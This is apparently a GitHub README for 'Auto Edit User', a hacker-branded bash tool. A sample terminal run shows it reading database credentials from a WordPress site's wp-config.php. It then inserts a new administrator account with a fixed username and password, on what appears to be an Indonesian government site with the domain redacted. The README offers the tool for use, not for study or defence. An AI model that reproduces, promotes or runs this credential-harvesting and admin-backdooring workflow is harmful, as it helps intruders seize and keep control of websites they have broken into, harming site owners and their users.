 ![alt text](https://raw.githubusercontent.com/mrcakil/Penetration-Revolution/master/test.png](https://raw.githubusercontent.com/HaxorSecInfec/wp-audit/main/Screenshot%202024-03-01%20024507.jpg)

# Auto Edit User v1
### Version : 1.1
### Author : HaxorSecKill

#### Run
```
root@HaxorSec:~# bash auto

   _   _   _   _   _   _   _   _     _   _   _   _
  / \ / \ / \ / \ / \ / \ / \ / \   / \ / \ / \ / \
 ( A | u | t | o | E | d | i | t ) ( U | s | e | r )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/   \_/ \_/ \_/ \_/

 Coded By: HaxorSecKill Infection

Path Your Find WP-CONFIG.PHP: /home/Your-User/public_html
Your Username: haxorsecurity

[+] Getting Config From /home/Your-User/public_html/wp-config.php
[*] dbname: [redacted] |dbuser: [redacted] |dbpassword: [redacted] |table_prefix: [redacted]
[+] Trying Added Username and Password: haxorsecurity | HaxorSecInfec
[+] Your ID: 7
[+] Url Login : https://[redacted].go.id/wp-login.php
[+] Successfull AddUser admin!
```

### Enjoy!
### Bug ? Please Report issue or contact : mrcakil@programmer.net
